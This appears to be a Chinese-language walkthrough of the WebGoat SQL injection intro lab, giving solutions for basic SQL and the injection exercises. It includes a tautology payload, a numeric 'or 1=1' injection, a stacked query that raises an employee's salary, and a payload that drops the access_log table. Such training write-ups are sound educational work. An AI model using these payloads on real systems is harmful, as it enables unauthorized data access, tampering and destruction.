

# SQL Injection(intro)

## What is SQL  

给了一个数据库的表，叫'employees'  
  
要用SQL查Bob Franco的department，sql语言如下  

```sql
select department from employees where first_name='Bob' and last_name='Franco'
```
  


## Data Manipulation Language(DML)  

还是同样的表，这次要更新表中的数据，sql代码如下  
```sql
update employees set department='Sales' where first_name='Tobi' and last_name='Barnett'
```  
  

## Data Definition Language(DDL)  
这次在employees表中添加phone列，类型是varchar(20),sql代码如下  
```sql  
alter table employees add phone varchar(20)
```  
  

## Data Conntrol Language(DCL)  

要给一个用户授予表grant_rights的权，什么权没说，好像可以随便授权，sql代码如下  
```sql
grant select on grant_rights to unauthorized_user
```  
  


## Try It! String SQL injecton  

要查询所有的信息，相当于在输入框中输入  
```
Smith' or '1'='1
```  
  


## Try It! Numeric SQL injection  

答案是这样的
  
  
最下面有这样一句  
```
Your query was: SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
```  
但是如果在Login_Count先打一个空格在填1，就像这样  
  
下面也是  
```  
Your query was: SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1  
```
他告诉的两个查询并无二致，但是确实错了，因为加了就不能是数字了。  
  
我怀疑上面是不是少了几个引号  

## 11  
没什么好说的  
  
  

## SQL query chaining  
要把Smith的工资改的最高  
  

1. 通过下面语句完成修改  
```sql
update employees set salary = 99999 where last_name = 'Smith';

```
2. 那么TAN这样注入  
```
3SL99A';update employees set salary=99999 where last_name='Smith
```

3.完成  
   

## Compromising Availablity  

因为之前修改被记录了，要删除access_log表。  
  
没什么好说的  
```
1'; drop table access_log
```
  